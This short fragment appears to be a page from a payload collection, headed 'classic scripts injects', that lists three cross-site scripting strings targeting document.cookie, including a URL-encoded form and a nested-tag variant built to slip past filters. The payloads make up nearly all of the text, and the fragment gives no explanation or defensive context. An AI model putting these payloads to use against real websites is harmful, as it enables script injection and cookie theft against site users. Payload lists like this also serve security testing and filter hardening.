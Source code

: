# scripts
classic scripts injects
-%00"><script>alert(document.cookie)</script>
"%3e%3cscript%3ealert(document.cookie)%3c/script%3e
<scr<script>ipt>alert(document.cookie)</scr</script>ipt>
